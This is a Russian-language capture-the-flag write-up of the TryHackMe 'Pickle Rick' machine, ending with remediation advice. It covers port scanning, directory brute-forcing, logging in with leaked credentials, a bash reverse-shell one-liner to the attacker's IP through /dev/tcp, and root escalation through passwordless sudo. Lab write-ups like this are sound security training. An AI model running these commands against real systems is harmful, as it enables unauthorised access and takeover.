








# TryHackMe: Pickle Rick


*Дата: 21.10.2026*


### Сложность: Easy

**Мой IP: 192.168.166.222**

**IP Цели: 10.114.151.146**


Сегодня у меня довольно популярная машинка на TryHackMe - **Pickle Rick** 
На данный момент это моя первая машинка, и сейчас я проверю свои способности в пентесте и документирование результата

**Инструменты: nmap, gobuster, netcat, bash, sudo**

---

После запуска машинки и подключения к OpenVPN, первым делом я решил отсканировать все порты с помощью nmap, команда выглядела так:

```bash
nmap -sV -T4 10.114.151.146 -p-
```



`T4` я использовал чтобы сканирование всех 65535 портов не заняло много времени

И так.. `Nmap` выдал мне два порта, 22-ой `(OpenSSH 8.2p1)` на котором был запущен `SSH`, и 80 `(Apache httpd 2.4.41)` на котором был сайт. Я решил начать с сайта

На сайте меня встретил Рик, который просил помощи. Первым делом я решил заглянуть в исходный код страницы `(Ctrl+U)` где в комментариях смог найти предполагаемый Username Рика: `R1ckRul3s` но пока этого мало
Теперь я решил использовать `gobuster` для поиска других страниц, используя в качестве словаря небольшую таблицу common.txt
Сервер был на Apache, поэтому я решил искать не только папки, но и другие расширения популярные на Apache:

```bash
gobuster dir -u http://10.114.151.146 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```



Я решил начать с `robots.txt`, вдруг там есть что-нибудь полезное, но там была лишь одна фраза:
`Wubbalubbadubdub`

Мне показалось это подозрительным, у меня было предположение что эта фраза - пароль, и сейчас я попробую войти в аккаунт с помощью этого,
и моя догадка оказалась абсолютно верна. 



Мне не понадобилось заходить на другие страницы, ведь после логина меня перекинуло прямо в `http://10.114.151.146/portal.php` *(куда раньше доступ мне был закрыт)* где была командная строка

В первую очередь я решил посмотреть кто я, где я и какие у меня права
```bash
whoami
pwd
sudo -l
```
`whoami` показал мне что я `www-data`, `pwd` показал мне что я в `/var/www/html`, а `sudo -l` показал мне, что у меня есть доступ использовать все команды без ввода пароля `(ALL) NOPASSWD: ALL`



В первую очередь я решил получить **reverse-shell**

---

Сначала я решил использовать netcat, открыть порт с помощью `-lvp` и с помощью `-e /bin/sh` получить шелл,
но видимо на сервере не было netcat или с ним были проблемы, поэтому я решил попробовать bash, в первую очередь я решил открыть 4444-ый порт на kali:

```bash
nc -lvp 4444
```



теперь попробую подключиться на kali с цели:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.166.222/4444 0>&1'
```



Да, у меня получилось. Теперь у меня есть reverse-shell, и как мы помним у нас есть все права на sudo без пароля,
поэтому сразу я решил попробовать стать root через команду

```bash
sudo su
```

И у меня получилось, я проверил через whoami, и да я был root. Теперь я занялся поиском флагов,
в первую очередь начал искать флаги в /var/www/html с помощью 
```bash
ls -la
```
и смог найти подозрительный файл Sup3rS3cretPickl3Ingred.txt, прочитав который получил первый флаг



---

Теперь решил поискать флаги с помощью `find`, введя команду:
```bash
find / -name "*flag*" 2>/dev/null
```

Я получил огромный вывод, но в итоге ничего не нашёл,
поэтому я решил попробовать сделать то же самое, но со словом `ingredient` введя команду:
```bash
find / -name "*ingredient*" 2>/dev/null
```

И в итоге я смог найти второй ингредиент, который находился в `/home/rick/second ingredients`
Теперь мне нужно узнать его, я решил ввести:
```bash
cat "/home/rick/second ingredients"
```

*(cat с кавычками, потому что просто так он не прочитает файл в имени которого есть пробел)*

И так я получил второй флаг, теперь время найти третий..

Я решил проверить `/root` и написав 
```bash
ls -la
```
я нашёл тестовый файл 3rd.txt, использовав 
```bash
cat /root/3rd.txt
```
наконец узнал третий флаг, и прошёл машинку



### Рекомендации по устранению уязвимостей:
1. **Убрать комментарий в коде основной страницы с `username`-ом**
2. **Поменять пароль и убрать его из `robots.txt`**
3. **Использовать правило минимальных привилегий для www-data**
4.  **Запретить использование системных команд из веб-интерфейса**
